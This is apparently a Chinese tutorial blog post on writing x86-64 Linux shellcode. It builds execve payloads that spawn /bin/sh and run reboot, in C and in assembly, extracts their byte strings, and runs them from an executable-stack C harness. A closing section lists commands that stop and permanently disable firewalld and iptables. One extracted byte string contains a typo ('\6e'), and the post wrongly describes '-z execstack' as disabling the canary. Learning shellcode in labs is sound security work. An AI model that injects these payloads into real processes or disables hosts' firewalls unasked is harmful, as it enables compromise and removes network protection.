 [TOC]

## 1. 打开 terminal

首先我们来试试最经典的例子 ---- 打开 terminal

那么问题来了用c语言该怎么写？

>   int execve(const char \****filename***, char \*const **argv**[], char \*const **envp**[]);
>
>   filename:	要执行的程序
>
>   argv[]：传递给新程序的参数字符串数组
>
>   envp[]:	传递给新程序的环境变量字符串数组

### 1.1 C语言版本

```c
#include<stdio.h>
#include <stdlib.h>

int main()
{
	char *name[2];
	name[0] = "bin/sh";
	name[1] = 0x0;

	execve(name[0], name, NULL);
	exit(0);
}
```

用gcc编译一下，看看能否运行？

-   -z execstack 关闭canary
-   -g 添加信息，便于gdb调试

```shell
gcc getTerminal.c -o terminal -z execstack -g
./terminal
```

![image-20220806232610222](Linux_shellcode开发之实战/image-20220806232610222.png)

可以看到程序成功执行，说明我们的思路没有问题。



### 1.2 写汇编

从上面可以看到，这个 execve("bin/sh", ["bin/sh"], NULL) 参数是没有问题的，根据 execve 的系统调用号 0x3b 来布置函数栈帧。

```asm
global _start
section .text
 
_start:
	; execve("/bin/sh", ["/bin/sh"], NULL)
	; rax = 0x3b, rdx= NULL, rdi = '//bin/sh', rsi = '//bin/sh'
	xor		rdx, rdx
	mov		qword rbx, '//bin/sh'		; 0x68732f6e69622f2f
	shr		rbx, 0x8
	push		rbx
	mov		rdi, rsp
	push		rax
	push		rdi
	mov		rsi, rsp
	mov		al, 0x3b
	syscall
```

编译运行：

```shell
$ nasm -f elf64 execve_sh64.asm 
$ ld -m elf_x86_64 execve_sh64.o -o execve_sh64 
$ ./execve_sh64 
```

![image-20220807220010173](Linux_shellcode开发之实战/image-20220807220010173.png)



### 1.3 提取机器码

```shell
sakura@Kylin:~/文档/execveDir$ objdump -d execve_sh64

execve_sh64：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:	48 31 d2             	xor    %rdx,%rdx
  401003:	48 bb 2f 2f 62 69 6e 	movabs $0x68732f6e69622f2f,%rbx
  40100a:	2f 73 68 
  40100d:	48 c1 eb 08          	shr    $0x8,%rbx
  401011:	53                   	push   %rbx
  401012:	48 89 e7             	mov    %rsp,%rdi
  401015:	50                   	push   %rax
  401016:	57                   	push   %rdi
  401017:	48 89 e6             	mov    %rsp,%rsi
  40101a:	b0 3b                	mov    $0x3b,%al
  40101c:	0f 05                	syscall 

"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" 
```



### 1.4 测试

将机器码嵌入C语言运行。

```c
#include <stdio.h>
#include <string.h>


int main()
{
    const char shellcode[] =  "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05";
    //当shellcode包含空字符时，printf 将会打印出错误的 shellcode 长度
    printf("Shellcode length: %d bytes\n",strlen(shellcode));
    (*(void(*)())shellcode)();
}
```

编译运行：

```shell
$ gcc execve_sh64.c -o execve_sh64 -z execstack -z norelro -no-pie -g
$ ./execve_sh64
```

成功执行。

![image-20220807230925573](Linux_shellcode开发之实战/image-20220807230925573.png)



## 2. 重启 reboot

### 2.1 找到指令位置

首先，查看 reboot 命令所在位置。

```shell
$ whereis reboot
reboot: /usr/sbin/reboot /usr/share/man/man8/reboot.8.gz
```

用此路径（/usr/sbin/reboot）作为参数，进行系统调用。

```asm
global _start
section .text
 
_start:
	; execve("/usr/sbin/reboot", ["/usr/sbin/reboot"], NULL)
	; rax = 0x3b, rdx= NULL, rdi = '/usr/sbin/reboot', rsi = '/usr/sbin/reboot'
	xor		rdx, rdx
	push  	rdx
	mov		rbx, 'n/reboot'
	push		rbx
	mov 	rbx, '/usr/sbi'
	push 		rbx
	mov		rdi, rsp
	push		rax
	push		rdi
	mov		rsi, rsp
	mov		al, 0x3b
	syscall
```

### 2.2 编译链接运行

```shell
$ nasm -f elf64 execve_reboot.asm
$ ld -m elf_x86_64 execve_reboot.o -o execve_reboot
$ ./execve_reboot
```

然后就重启了。

### 2.3 提取机器码

```shell
$ objdump -d execve_reboot 

execve_reboot：     文件格式 elf64-x86-64

Disassembly of section .text:

0000000000401000 <_start>:
  401000:	48 31 d2             	xor    %rdx,%rdx
  401003:	52                   	push   %rdx
  401004:	48 bb 6e 2f 72 65 62 	movabs $0x746f6f6265722f6e,%rbx
  40100b:	6f 6f 74 
  40100e:	53                   	push   %rbx
  40100f:	48 bb 2f 75 73 72 2f 	movabs $0x6962732f7273752f,%rbx
  401016:	73 62 69 
  401019:	53                   	push   %rbx
  40101a:	48 89 e7             	mov    %rsp,%rdi
  40101d:	50                   	push   %rax
  40101e:	57                   	push   %rdi
  40101f:	48 89 e6             	mov    %rsp,%rsi
  401022:	b0 3b                	mov    $0x3b,%al
  401024:	0f 05                	syscall 
```

```
"\x48\x31\xd2\x52\x48\xbb\x6e\x2f\x72\x65\x62\x6f\x6f\x74\x53\x48\xbb\x2f\x75\x73\x72\x2f\x73\x62\x69\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
```



### 2.4 测试

将机器码嵌入c语言运行。

```c
#include <stdio.h>
#include <string.h>

int main()
{
    const char shellcode[] =  "\x48\x31\xd2\x52\x48\xbb\x6e\x2f\x72\x65\x62\x6f\x6f\x74\x53\x48\xbb\x2f\x75\x73\x72\x2f\x73\x62\x69\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05";
    //当shellcode包含空字符时，printf 将会打印出错误的 shellcode 长度
    printf("Shellcode length: %d bytes\n",strlen(shellcode));
    (*(void(*)())shellcode)();
}
```

编译运行：

```shell
$ gcc execve_reboot.c -o execve_reboot -z execstack -z norelro -no-pie -g
$ ./execve_reboot
```

成功重启。



## 3 关闭防火墙

与防火墙相关的指令，转载于：[Linux关闭防火墙命令](https://www.cnblogs.com/jxldjsn/p/10794171.html)

```shell
1:查看防火状态
systemctl status firewalld
service  iptables status

2:暂时关闭防火墙
systemctl stop firewalld
service  iptables stop

3:永久关闭防火墙
systemctl disable firewalld
chkconfig iptables off

4:重启防火墙
systemctl enable firewalld
service iptables restart 

5:永久关闭后重启
//暂时还没有试过
chkconfig iptables on
```

